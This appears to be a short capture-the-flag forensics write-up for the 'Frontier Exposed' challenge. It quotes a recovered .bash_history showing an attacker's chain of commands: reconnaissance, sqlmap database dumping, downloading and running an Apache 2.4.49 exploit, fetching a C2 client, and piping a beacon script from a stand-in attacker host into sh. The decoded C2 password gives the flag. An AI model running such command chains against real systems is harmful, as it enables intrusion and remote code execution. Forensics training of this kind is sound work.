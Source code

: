 # Frontier Exposed
- **Category:** Forensics
- **Difficulty:** Very Easy
- **Description:** "The chaos within the Frontier Cluster is relentless, with malicious actors exploiting vulnerabilities to establish footholds across the expanse. During routine surveillance, an open directory vulnerability was identified on a web server, suggesting suspicious activities tied to the Frontier Board. Your mission is to thoroughly investigate the server and determine a strategy to dismantle their infrastructure. Any credentials uncovered during the investigation would prove invaluable in achieving this objective. Spawn the docker and start the investigation!"

Accessing the docker URL will lead us to this page

![image](https://github.com/KimiNoPanda/CTF/blob/main/Write-up/HTB-Uni%20%3A%20Binary%20Badlands/Forensics/assets/1.png)

By opening each file, we can see in the `.bash_history` :

```bash
nmap -sC -sV nmap_scan_results.txt jackcolt.dev
cat nmap_scan_results.txt
gobuster dir -u http://jackcolt.dev -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -o dirs.txt
nc -zv jackcolt.dev 1-65535
curl -v http://jackcolt.dev
nikto -h http://jackcolt.dev
sqlmap -u "http://jackcolt.dev/login.php" --batch --dump-all
searchsploit apache 2.4.49
wget https://www.exploit-db.com/download/50383 -O exploit.sh
chmod u+x exploit.sh
echo "http://jackcolt.dev" > target.txt
./exploit target.txt /bin/sh whoami
wget https://notthefrontierboard/c2client -O c2client
chmod +x c2client
/c2client --server 'https://notthefrontierboard' --port 4444 --user admin --password SFRCe0MyX2NyM2QzbnQxNGxzXzN4cDBzM2R9
./exploit target.txt /bin/sh 'curl http://notthefrontierboard/files/beacon.sh|sh'
wget https://raw.githubusercontent.com/vulmon/Vulmap/refs/heads/master/Vulmap-Linux/vulmap-linux.py -O vulnmap-linux.py
cp vulnmap-linux.py /var/www/html
```

![image](https://github.com/KimiNoPanda/CTF/blob/main/Write-up/HTB-Uni%20%3A%20Binary%20Badlands/Forensics/assets/2.png)

We can see the use of a password and copying it into cyberchef gives us the flag : HTB{C2_cr3d3nt14ls_3xp0s3d}
